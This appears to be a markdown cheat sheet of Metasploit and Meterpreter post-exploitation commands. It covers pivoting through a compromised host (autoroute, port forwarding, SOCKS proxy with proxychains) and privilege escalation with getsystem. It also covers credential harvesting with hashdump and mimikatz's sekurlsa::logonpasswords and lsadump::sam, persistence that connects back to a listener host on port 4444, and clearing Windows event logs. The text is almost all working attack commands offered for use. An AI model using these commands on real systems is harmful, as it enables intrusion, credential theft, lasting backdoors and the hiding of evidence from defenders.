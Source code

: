 ## Metasploit Framework Mastery

### Advanced Session Management
```bash
# Route through compromised host
run autoroute -s 10.10.10.0/24
run autoroute -p  # Print routes

# Port forwarding
portfwd add -l 3389 -p 3389 -r 10.10.10.50
portfwd add -l 445 -p 445 -r 10.10.10.50
portfwd list
portfwd delete -l 3389

# SOCKS proxy
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION 4a
run -j

# Use with proxychains
proxychains nmap -sT -Pn 10.10.10.0/24
proxychains rdesktop 10.10.10.50
```

### Meterpreter Post-Exploitation
```bash
# Privilege escalation
getsystem
use priv
getsystem -t 1  # Named pipe impersonation

# Credential harvesting
hashdump
load kiwi
creds_all
kiwi_cmd sekurlsa::logonpasswords
kiwi_cmd lsadump::sam

# Network reconnaissance
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
run post/windows/gather/enum_domains
run post/windows/gather/enum_shares

# Persistence
run persistence -X -i 10 -p 4444 -r 192.168.1.10
run persistence -U -i 10 -p 4444 -r 192.168.1.10

# Clean up
clearev  # Clear event logs (noisy!)
```

---
